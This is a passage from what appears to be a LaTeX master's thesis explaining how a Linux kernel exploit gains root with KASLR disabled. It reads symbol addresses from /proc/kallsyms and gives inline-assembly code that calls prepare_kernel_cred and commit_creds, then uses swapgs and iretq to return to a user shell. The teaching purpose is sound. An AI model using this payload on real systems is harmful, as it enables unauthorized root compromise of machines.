 \documentclass{masterthesis}
\begin{document}
\subsection{Getting root privileges}
\label{subsect:get privileges}
Our goal is to get root privileges on the system.
This can be done through two functions that already reside in the same kernel-space code: \texttt{commit_creds()} and \texttt{prepare\_kernel\_cred()}.
Since KASLR is disabled, the addresses where the functions reside are constant at every start. So we can get those addresses by reading the \texttt{/proc/kallsyms} file with the following terminal commands:
\begin{lstlisting}
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred}
\end{lstlisting}
Then to get root privileges you need to write a code where the two functions are called consecutively using the return value of one as a parameter of the other.
At this point, we need to recall an instruction that allows you to return to userland.
This can be done with \emph{iretq} or \emph{sysretq}.
With iretq it is much simpler as you need to configure the stack with 5 user area registry values in this order:\texttt{RIP | CS | RFLAGS | SP | SS}.
For the \texttt{RIP}, we can set the address of the function that allows you to open a shell, while for the others you need to enter values that return to a state before entering kernel mode.
The best solution, therefore, is to save the state of the registers before entering kernel mode and reload them after obtaining root privileges.
\begin{lstlisting}
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
\end{lstlisting}
Before iretq, it is appropriate to invoke the \emph{swapgs} instruction because syscall does not change RSP to point to the kernel stack (and it does not save RSP user space anywhere). So some kind of thread-local (or core-local) storage is needed so that each core can get the correct kernel stack pointer for the task running on that core.
A possible code to gain root privileges is:
\begin{lstlisting}
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
      "call rax; mov rdi, rax;"
      "movabs rax, 0xffffffff814c6410;" //commit_creds
      "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\end{document}
